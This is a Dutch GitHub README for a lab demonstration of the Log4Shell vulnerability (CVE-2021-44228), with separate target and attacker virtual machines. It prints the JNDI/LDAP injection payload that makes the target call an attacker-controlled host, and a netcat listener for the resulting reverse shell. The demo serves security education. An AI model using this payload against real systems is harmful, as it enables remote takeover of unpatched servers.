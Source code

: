 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
jndi = een Java API waarmee je objecten kunt opzoeken
ldap:// = het protocol
10.0.2.5 = IP van de aanvaller / LDAP-server
:1389 = standaard poort voor LDAP
/a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
